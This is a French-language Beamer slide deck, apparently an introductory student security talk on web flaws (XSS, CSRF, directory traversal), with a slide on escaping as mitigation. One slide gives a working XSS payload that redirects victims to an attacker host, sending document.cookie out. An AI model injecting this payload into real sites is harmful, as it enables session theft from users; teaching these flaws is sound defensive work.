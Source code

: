\documentclass{beamer}
\title[Failles Web]{H4ck 1n TN}
\subtitle{Failles Web}
\author[H4ck1nTN]{Valentin STERN}
\institute[HiT]{Ceten -- TELECOM Nancy}
\date{\today}
\begin{document}
\begin{frame}
\titlepage
\end{frame}

\begin{frame}{D'où viennent les failles?}
	Du serveur en général\\
	Surtout en PHP car c'est le langage le plus utilisé\\
	Pas développé de manière sécurisé au départ
\end{frame}

\begin{frame}{Les failles vues dans cette présentation}
	Faille XSS\\
	CSRF\\
	Transversal directory\\
\end{frame}

\begin{frame}{Faille XSS}
	Utilisée en général pour voler des cookies\\
	Pour rediriger vers des pubs\\
	Embêter les utilisateurs
\end{frame}

\begin{frame}{Son fonctionnement}
	Nécessite un formulaire qui réaffiche les données entrées\\
	Permet d'éxécuter du javascript sur le client d'autres personnes\\
	Par exemple : <script>alert('Hello')</script>
\end{frame}

\begin{frame}{Comment voler les cookies ?}
	Contenus dans document.cookie\\
	Nécessite un serveur, avec un fichier enregistrant ce qu'on lui envoie\\
	<script>window.location.replace('http://monsite.org/index.php?c=' + document.cookie.toString())</script>
\end{frame}

\begin{frame}{Comment la sécuriser ?}
	Echapper les caractères\\
	Remplace donc par exemple < par \&lt\;\\
	Affiche donc au final <script>alert('Hello')</script> et n'éxécute pas le code
\end{frame}

\begin{frame}{CSRF}
	Acronyme de Cross-Site Request Forgery\\
	Permet d'utiliser les droits d'un autre utilisateur pour faire ce que l'on veut
\end{frame}
\end{document}
